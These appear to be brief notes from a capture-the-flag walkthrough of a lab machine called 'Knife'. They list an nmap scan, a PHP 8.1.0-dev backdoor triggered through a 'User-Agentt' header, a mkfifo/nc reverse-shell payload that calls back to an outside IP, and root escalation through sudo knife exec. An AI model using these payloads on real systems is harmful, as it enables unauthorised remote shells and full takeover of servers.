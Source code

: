 # Knife

10.129.205.203

## nmap

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## http 80

X-Powered-By: PHP/8.1.0-dev

```
User-Agentt: zerodiumsystem('id');
User-Agentt: zerodiumsystem('rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.172 1234 >/tmp/f');
```

## root

```sh
$ sudo -l
    (root) NOPASSWD: /usr/bin/knife
```

GTFOBins: sudo knife exec -E 'exec "/bin/bash"'